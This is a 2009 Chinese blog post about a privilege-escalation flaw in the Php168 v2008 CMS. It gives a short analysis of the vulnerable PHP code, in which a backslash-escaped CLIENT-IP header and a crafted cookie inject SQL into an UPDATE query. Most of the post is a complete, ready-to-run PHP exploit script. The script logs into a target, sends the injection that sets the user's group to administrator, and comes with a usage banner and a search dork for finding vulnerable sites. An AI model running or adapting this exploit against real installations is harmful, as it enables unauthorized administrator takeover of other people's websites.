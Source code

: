 ```yaml
---
title: Php168 v2008 权限提升漏洞利用工具代码exploit
description: 简单分析下这个Php168v2008权限提升漏洞利用工具代码exploit：common.inc.php......
date: 2009-01-27 09:22:58
category: 漏洞信息
tags: ['PHP168', 'exploit', '漏洞信息']
post_id: 764
alias: Php168-v2008-update-user-access-exploit
ViewNums: 3181
---
```


简单分析下这个 [**Php168 v2008 权限提升漏洞利用工具代码exploit**](/blog/php168-v2008-update-user-access-exploit)：

**common.inc.php**

if($_SERVER['HTTP_CLIENT_IP']){
     $onlineip=$_SERVER['HTTP_CLIENT_IP'];
}elseif($_SERVER['HTTP_X_FORWARDED_FOR']){
     $onlineip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}else{
     $onlineip=$_SERVER['REMOTE_ADDR'];
}
$onlineip = preg_replace("/^([d.]+).*/", "\1", filtrate($onlineip));
//这个地方使用preg_replace存在着安全隐患,之前就暴过漏洞,官方修补的方法是用filtrate函数处理了下$onlineip
看一下filtrate函数是怎么处理的

**function.inc.php**

function filtrate($msg){
    $msg = str_replace('&amp;','&',$msg);
    $msg = str_replace('&nbsp;',' ',$msg);
    $msg = str_replace('"','&quot;',$msg);
    $msg = str_replace("'",'&#39;',$msg);
    $msg = str_replace("<","&lt;",$msg);
    $msg = str_replace(">","&gt;",$msg);
    $msg = str_replace(" ","   &nbsp;  &nbsp;",$msg);
    $msg = str_replace("
","",$msg);
    $msg = str_replace("   "," &nbsp; ",$msg);
    return $msg;
}

过滤了'"<等,但是没有处理

**common.inc.php**

    if($usr_oltime>30||!$usr_oltime){
        $usr_oltime>600 && $usr_oltime=600;
        include(PHP168_PATH."php168/level.php");
        if( isset($memberlevel[$lfjdb[groupid]]) ){
            $SQL=",groupid=8";
            $lfjdb[money]=get_money($lfjuid);
            foreach( $memberlevel AS $key=>$value){
                if($lfjdb[money]>=$value){
                    $SQL=",groupid=$key";
                }
            }
        }else{
            $SQL="";
        }
        $db->query("UPDATE {$pre}memberdata SET lastvist='$timestamp',lastip='$onlineip',oltime=oltime+'$usr_oltime'$SQL WHERE uid='$lfjuid'");
//因为这个地方是拼接字符串的形式,所以可以使用来转义',然后利用$usr_oltime来注射:)另外要注意的是$usr_oltime有一个简单的判断的,而且还要保证sql语句的语法正确,看下我构造的语句:

UPDATE {$pre}memberdata SET lastvist='$timestamp',lastip='[]',oltime=oltime+'[+31,groupid=3,introduce=0x70757265745f74 WHERE uid=2#]'$SQL WHERE uid='$lfjuid'

**最后给出 Php168 v2008 权限提升漏洞利用工具代码exploit：**

#!/usr/bin/php
<?php

print_r('
+---------------------------------------------------------------------------+
[Php168 <= v2008 update user access exploit](/blog/php168-v2008-update-user-access-exploit)
by puret_t
mail: puretot at gmail dot com
team: http://www.wolvez.org
dork: "Powered by PHP168"
+---------------------------------------------------------------------------+
');
/**
 * works regardless of php.ini settings
 */
if ($argc < 5) {
    print_r('
+---------------------------------------------------------------------------+
Usage: php '.$argv[0].' host path user pass
host:      target server (ip/hostname)
path:      path to php168
user:      login username
pass:      login password
Example:
php '.$argv[0].' localhost /php168/
+---------------------------------------------------------------------------+
');
    exit;
}

error_reporting(7);
ini_set('max_execution_time', 0);

$host = $argv[1];
$path = $argv[2];
$user = $argv[3];
$pass = $argv[4];

$resp = send();
preg_match('/Set-Cookie:s(passport=([0-9]{1,4})%09[a-zA-Z0-9%]+)/', $resp, $cookie);

if ($cookie)
    if (strpos(send(), 'puret_t') !== false)
        exit("Expoilt Success!
You Are Admin Now!
");
    else
        exit("Exploit Failed!
");
else
    exit("Exploit Failed!
");

function rands($length = 8)
{
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    mt_srand((double)microtime() * 1000000);
    for ($i = 0; $i < $length; $i++)
        $hash .= $chars[mt_rand(0, $max)];

    return $hash;
}

function send()
{
    global $host, $path, $user, $pass, $cookie;

    if ($cookie) {
        $cookie[1] .= ';USR='.rands()." %2b31,groupid=3,introduce=0x70757265745f74 WHERE uid=$cookie[2]# ";
        $cmd = '';

        $message = "POST ".$path."member/userinfo.php  HTTP/1.1
";
        $message .= "Accept: */*
";
        $message .= "Accept-Language: zh-cn
";
        $message .= "Content-Type: application/x-www-form-urlencoded
";
        $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)
";
        $message .= "CLIENT-IP: ryat\
";
        $message .= "Host: $host
";
        $message .= "Content-Length: ".strlen($cmd)."
";
        $message .= "Connection: Close
";
        $message .= "Cookie: ".$cookie[1]."
";
        $message .= $cmd;
    } else {
        $cmd = "username=$user&password=$pass&step=2";

        $message = "POST ".$path."login.php  HTTP/1.1
";
        $message .= "Accept: */*
";
        $message .= "Accept-Language: zh-cn
";
        $message .= "Content-Type: application/x-www-form-urlencoded
";
        $message .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.00; Windows NT 5.1; SV1)
";
        $message .= "Host: $host
";
        $message .= "Content-Length: ".strlen($cmd)."
";
        $message .= "Connection: Close
";
        $message .= $cmd;
    }

    $fp = fsockopen($host, 80);
    fputs($fp, $message);

    $resp = '';

    while ($fp && !feof($fp))
        $resp .= fread($fp, 1024);

    return $resp;
}
?>

by Ryat
[http://www.wolvez.org](http://www.wolvez.org/)
2009-01-25

